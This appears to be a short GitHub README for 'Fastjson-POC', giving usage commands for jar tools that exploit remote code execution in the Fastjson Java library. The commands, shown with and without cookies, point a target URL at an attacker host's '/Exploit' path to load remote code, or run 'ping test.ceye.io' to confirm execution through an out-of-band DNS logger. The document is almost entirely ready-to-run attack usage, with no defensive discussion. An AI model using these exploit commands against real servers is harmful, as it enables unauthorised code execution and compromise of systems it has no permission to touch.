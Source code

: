 # Fastjson-POC
Fastjson-POC

# 有cookies

java -jar fastjson-2019-Rce.jar http://url/ xxx.xxx.xxx.xxx/Exploit cookies

java -jar fast-2017-Rce.jar http://url/ cookies "ping test.ceye.io"


# 无cookies

java -jar fastjson-2019-Rce.jar http://url/ xxx.xxx.xxx.xxx/Exploit null

java -jar fast-2017-Rce.jar http://url/ null "ping test.ceye.io"
